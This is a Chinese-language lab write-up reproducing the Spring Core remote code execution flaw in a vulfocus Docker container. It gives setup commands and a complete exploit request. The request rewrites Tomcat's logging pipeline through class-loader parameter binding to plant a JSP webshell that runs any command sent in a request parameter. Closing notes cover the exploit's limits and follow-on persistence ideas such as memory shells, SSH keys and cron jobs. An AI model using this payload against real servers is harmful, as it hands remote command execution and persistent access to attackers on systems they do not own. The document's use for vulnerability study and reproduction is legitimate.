

## 环境搭建
```shell
docker pull vulfocus/spring-core-rce-2022-03-29
```
## 启动环境
```shell
docker run -it -d --name springrce -p 192.168.93.131:9000:8080 vulfocus/spring-core-rce-2022-03-29
```
访问`192.168.93.131:9000` 出现如下界面则说明环境搭建成功


## 漏洞复现
当前docker 环境中，jdk版本为9.0


```http
POST / HTTP/1.1
Host: 192.168.93.131:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 685
suffix: %>
prefix: <%

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bprefix%7dijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("i")).getInputStream()%3b+int+a+%3d+-1%3b+byte[]+b+%3d+new+byte[2048]%3b+out.print("<pre>")%3b+while((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}+out.print("</pre>")%3b%25%7bsuffix%7di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat
```


## 问题总结

1. 目前看效果只能写一次，发送过1次payload之后，是不能向其他目录下写新文件
2. 发送一次payload之后之后，只能向文件里追加，不会覆盖文件
3. 如果没有容器化部署（tomcat war包部署），是写不了webshell，虽然还没捋清楚是否是代码执行，如果是代码执行，那么可以在运行态中写入内存马达到作用，如果是命令执行，那么是不行的（看payload的样子感觉是命令执行`pipeline`）
4. 如果是以jar包部署，那么考虑到启动jar包的用户权限，一般不会太高，在做了最小权限法的服务器，启动web服务的用户是没有家目录，导致无法写入公钥，也没权限写入计划任务
5. post包最后也就是第15行后不要有回车，不然生成的文件是`shell$\r\n.jsp`
6. 目前看很鸡肋


